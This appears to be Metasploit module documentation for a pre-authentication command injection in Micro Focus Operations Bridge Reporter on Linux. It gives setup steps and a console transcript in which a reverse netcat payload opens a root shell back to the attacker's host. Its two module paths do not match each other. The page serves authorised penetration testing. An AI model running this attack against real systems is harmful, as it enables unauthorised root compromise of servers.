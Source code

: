 ## Vulnerable Application

This module exploits a command injection vulnerability on *login* (yes, you read that right) that affects Micro Focus Operations
Bridge Reporter on Linux, versions 10.40 and below.
It's a straight up command injection, with little escaping required and it works before authentication.
This module has been tested on the Linux 10.40 version. Older versions might be affected, check the advisory for details.

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Reporter:10.40/Home

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.
This vulnerability only affects Linux installations.

All details about this vulnerabilitu can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBR.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/multi/http/microfocus_obr_cmd_injection`
4. `set payload PAYLOAD`
5. `set rhost TARGET`
6. `set lhost YOUR_IP`
7. `run`
8. You should get a shell.

## Scenarios

```
msf6 > use exploit/linux/http/microfocus_obr_cmd_injection
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > set payload payload/cmd/unix/reverse_netcat
payload => cmd/unix/reverse_netcat
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > set rhost 10.0.0.10
rhost => 10.0.0.10
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(linux/http/microfocus_obr_cmd_injection) > run

[*] Started reverse TCP handler on 10.0.0.1:4444
[*] 10.0.0.10:21412 - Payload sent, now wait for Shelly, if she doesn't arrive try again!
[*] Command shell session 1 opened (10.0.0.1:4444 -> 10.0.0.10:51806) at 2021-04-23 20:57:02 +0700

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
uname -a
Linux centos7 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
